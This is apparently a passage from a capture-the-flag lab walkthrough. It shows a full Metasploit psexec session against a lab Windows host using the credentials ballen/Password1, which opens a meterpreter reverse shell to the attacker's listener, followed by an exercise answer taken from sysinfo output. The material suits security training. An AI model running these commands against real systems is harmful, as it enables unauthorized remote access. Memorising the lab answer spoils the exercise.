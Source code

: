 Password: Password1

&nbsp;

```shell
bob@BoB~# msfconsole
msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
msf6 exploit(windows/smb/psexec) > set rhosts 10.10.208.39
rhosts => 10.10.208.39
msf6 exploit(windows/smb/psexec) > set smbuser ballen
smbuser => ballen
msf6 exploit(windows/smb/psexec) > set smbpass Password1
smbpass => Password1
msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.10.47.94:4444 
[*] 10.10.208.39:445 - Connecting to the server...
[*] 10.10.208.39:445 - Authenticating to 10.10.208.39:445 as user 'ballen'...
[*] 10.10.208.39:445 - Selecting PowerShell target
[*] 10.10.208.39:445 - Executing the payload...
[+] 10.10.208.39:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 10.10.208.39
[*] Meterpreter session 1 opened (10.10.47.94:4444 -> 10.10.208.39:50589) at 2025-02-07 02:55:25 +0000

meterpreter > 
```

&nbsp;

## Exercises

### Question 1

What is the Computer name?

answer: ACME-TEST

```shell
meterpreter > sysinfo
Computer        : ACME-TEST
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter > 

```
